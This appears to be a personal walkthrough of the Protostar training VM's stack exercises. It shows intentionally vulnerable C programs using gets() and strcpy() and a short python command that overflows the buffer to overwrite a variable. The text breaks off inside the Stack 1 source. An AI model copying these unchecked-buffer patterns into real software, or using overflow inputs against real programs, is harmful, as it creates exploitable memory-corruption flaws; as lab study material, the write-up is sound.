 # Protostar

Download the VM from https://exploit-exercises.com/download/ and exercises can be found from https://exploit-exercises.com/protostar/stack0/. After `cd /opt/protostar/bin`. At stack4, I realised that its probably better to ssh it, as I could move around better. To do this, use a bridged adapter on protostar vm, and `ssh user@PROTOSTARIP` and password `user`.

## Stack 0

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

We see that from higher addresses --> lower addresses, each variable is pushed on top, so if we overwrite buffer (as there are no boundary check done by gets) we can overwrite the value of modified.

```
$ echo `python -c 'print("A"*64)'` | ./stack0  
Try again?  
$ echo `python -c 'print("A"*65)'` | ./stack0  
you have changed the 'modified' variable  
```

## Stack 1

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)  
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
    errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
    printf("you have correctly got the variable to the right value\n");
  } else {
    printf("Try again, you got 0x%08x\n", modified);
```